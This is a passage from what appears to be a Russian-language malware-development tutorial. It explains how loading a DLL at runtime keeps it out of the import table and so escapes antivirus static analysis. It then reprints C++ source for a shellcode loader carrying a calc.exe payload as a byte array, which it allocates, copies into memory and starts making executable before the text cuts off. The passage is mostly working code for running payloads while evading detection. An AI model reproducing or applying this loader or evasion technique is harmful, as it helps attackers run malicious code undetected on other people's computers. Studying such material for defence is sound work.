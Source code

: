 Что здесь важно? Если вы скомпилируете свой код, компилятор не включит `hacker.dll` в таблицу импортов. Таким образом, антивирусный движок не сможет обнаружить её во время статического анализа.    

Давайте рассмотрим, как мы можем практически использовать эту технику. Возьмём исходный код нашего первого вредоносного ПО из [части 1](http://127.0.0.1:4000/tutorial/2021/09/04/simple-malware-av-evasion.html):

```cpp
/*
cpp implementation malware 
example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, 
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, 
```